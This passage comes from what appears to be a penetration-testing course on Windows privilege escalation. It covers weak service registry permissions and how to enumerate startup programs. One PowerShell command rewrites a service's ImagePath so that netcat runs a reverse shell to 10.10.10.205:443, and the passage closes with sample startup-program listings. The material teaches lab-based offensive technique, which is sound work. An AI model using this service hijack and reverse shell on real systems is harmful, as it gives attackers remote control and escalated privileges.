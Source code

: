 ### Changing ImagePath with PowerShell

We can abuse this using the PowerShell cmdlet `Set-ItemProperty` to change the `ImagePath` value, using a command such as:

Weak Permissions

```powershell
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"

```

---

## Modifiable Registry Autorun Binary

### Check Startup Programs

We can use WMIC to see what programs run at system startup. Suppose 
we have write permissions to the registry for a given binary or can 
overwrite a binary listed. In that case, we may be able to escalate 
privileges to another user the next time that the user logs in.

Weak Permissions

```powershell
PS C:\htb> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl

Name     : OneDrive
command  : "C:\Users\mrb3n\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : Windscribe
command  : "C:\Program Files (x86)\Windscribe\Windscribe.exe" -os_restart
Location : HKU\S-1-5-21-2374636737-2633833024-1808968233-1001\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : WINLPE-WS01\mrb3n

Name     : SecurityHealth
command  : %windir%\system32\SecurityHealthSystray.exe
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware User Process
command  : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

Name     : VMware VM3DService Process
command  : "C:\WINDOWS\system32\vm3dservice.exe" -u
Location : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
User     : Public

```